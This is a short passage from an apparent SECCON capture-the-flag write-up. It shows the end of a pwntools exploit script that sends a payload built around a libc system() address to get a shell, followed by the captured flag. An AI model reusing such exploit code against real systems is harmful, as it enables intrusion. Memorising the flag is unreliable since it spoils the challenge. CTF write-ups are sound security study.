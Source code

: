 ```
            libc_system_addr]

io.sendlineafter(b"n: ", b"%d"%main_list_length(payload3))
main_sender(io,payload3)
log_print("get shell")
io.interactive()

```

## flag

SECCON{M4k3_My_4bi1i7i3s_4v3r4g3_in_7h3_N3x7_Lif3_cpwWz9jpoCmKYBvf}
